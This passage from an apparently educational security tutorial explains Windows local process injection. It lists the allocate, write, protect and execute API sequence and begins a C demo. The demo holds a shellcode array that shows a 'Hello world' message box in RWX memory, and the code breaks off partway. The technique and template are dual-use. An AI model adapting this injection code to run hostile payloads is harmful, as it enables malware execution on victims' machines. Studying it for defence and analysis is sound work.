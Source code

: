 ![Local Process Injection](70DnTFXkV84T.png)

The process first reserves memory space within its own address space using APIs like `VirtualAlloc()` or `NtAllocateVirtualMemory()`. Then, the malicious code, such as shellcode or a reflective DLL, is written into the allocated memory using functions like `memcpy()`, `WriteProcessMemory()`, `RtlCopyMemory()`, or `RtlMoveMemory()`. If the memory region doesn't have the permissions to execute the code, then the permissions are also modified using functions like `VirtualProtect()` or `NtProtectVirtualMemory()`, ensuring the injected code can run. Finally, the process executes the injected code through direct function calls, thread creation ( `CreateThread()`, `RtlCreateUserThread()`, `NtCreateThreadEx()`), or execution redirection techniques like `SetThreadContext()` and `QueueUserAPC()`. We will learn these techniques in later sections. For now, we'll understand a scenario of shellcode injection into the local process without accessing or creating a remote or new process.

## Source Code for Demo

To demonstrate local process injection, we have created a C program that performs a local process injection. Once the shellcode is written to the allocated memory region, a messagebox is displayed.

```c
#include <windows.h>
#include <stdio.h>

//Shellcode to show HelloWorld Message Box
unsigned char shellcode[] =
    "\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
    "\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
    "\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
    "\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
    "\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
    "\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
    "\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
    "\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
    "\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
    "\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
    "\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
    "\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
    "\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
    "\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
    "\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
    "\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
    "\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
    "\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
    "\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
    "\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
    "\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
    "\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
    "\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
    "\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
    "\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
    "\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
    "\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
    "\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
    "\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int main() {
    DWORD pid = GetCurrentProcessId();
    printf("\n[+] Current process ID: %lu\n", pid);

    LPVOID lpAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpAlloc == NULL) {
        printf("VirtualAlloc failed\n");
        return 1;
    } else {
        printf("\n[+] Allocated memory locally in address : 0x%p\n", lpAlloc);
```